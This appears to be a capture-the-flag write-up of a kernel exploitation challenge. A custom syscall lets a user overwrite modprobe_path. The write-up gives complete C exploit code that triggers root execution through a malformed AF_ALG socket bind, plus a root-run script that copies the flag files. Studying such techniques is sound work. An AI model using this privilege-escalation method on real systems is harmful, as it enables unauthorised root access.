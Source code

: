 ```yaml
---
date: '2025-07-08T08:58:13+05:30'
draft: false
title: 'No 549'
tags:
- pwn
- kernel
- modprobe
---
```


`modprobe_path` overwrite exploit after 6.14.
trigger modprobe using `struct sockaddr_alg`.

First ever kernel pwn!

<!--more-->

## Observation

We are given a gzipped tarball, containing usual kernel pwn stuffs (bzImage, initramfs, qemu script, docker, etc.), and a syscall_64.tbl with the following entry, hinting a custom syscall.

```
549  common  naup  sys_naup
```

First thing to do is convert the bzImage to a debuggable ELF file, with the following tools

```bash
./extract-vmlinux.sh bzImage >vmlinux
./vmlinux-to-elf/vmlinux-to-elf ./vmlinux ./vmlinux.elf
```

Open it up in ghidra, and find the implementation of the `naup` syscall

![naup-syscall](images/ghidra-re.png)

It does the following:
1. Ensure first parameter points to `modprobe_path`
2. Copy 8 bytes pointed to by the second argument.
3. Store the 8 bytes in `modprobe_path`.

So, we have a `modprobe_path` overwrite - a standard method for privilege escalation.

### modprobe_path overwrite - how it works

The modprobe_path variable stores a path to an executable that is executed with root privileges when an unknown module is loaded.

Example:
1. (PATCHED IN kernel commit [`fa1bdca98d74472dcdb79cb948b54f63b5886c04`](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fa1bdca98d74472dcdb79cb948b54f63b5886c04)) When you try running a file with unrecegonized magic bytes (unrecegonized file format), the modprobe program will be executed with root privileges.
2. When you pass an invalid `struct sockaddr_alg` to `bind`.

We will be using the 2nd method to pwn the kernel here.

## Exploit

Compile the exploit, and copy it over to the target system.

```c
// exploit.c
// gcc exploit.c -o exploit -fstatic
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/syscall.h>
#include <unistd.h>

#include <fcntl.h>
#include <linux/if_alg.h>
#include <string.h>
#include <sys/socket.h>

int main(int argc, char *argv[argc]) {
  long ret;
  unsigned char buf[] = "/tmp/pw\x00";

  ret = syscall(549, 0xffffffff82b45b20, &buf[0], 0x3333333333333333);

  if (ret == -1) {
    perror("syscall 549 failed");
  } else {
    printf("syscall 549 returned: %ld\n", ret);
  }

  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    return 1;
  }

  struct sockaddr_alg sa;
  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  strcpy((char *)sa.salg_type, "pwnme"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

  return 0;
}

// 0xffffffff82b45b20 T modprobe_path
// 0xffffffff82b45b20
// vim: sw=2
```

Execute the exploit. The `modprobe_path` will have changed to `/tmp/pw`.



Create a script `/tmp/pw` with the following contents and make it executable.

```bash
$ cat <<EOF >/tmp/pw
#!/bin/sh

cp /flag.txt /tmp/flag.txt
cp /flag /tmp/flag

chmod 777 /tmp/flag.txt
chmod 777 /tmp/flag

EOF
$ chmod 777 /tmp/pw
```

Run the exploit again to trigger the `struct sockaddr_alg` corruption, which will cause the `modprobe_path` program to be executed as root.

```bash
$ cat /tmp/flag
```



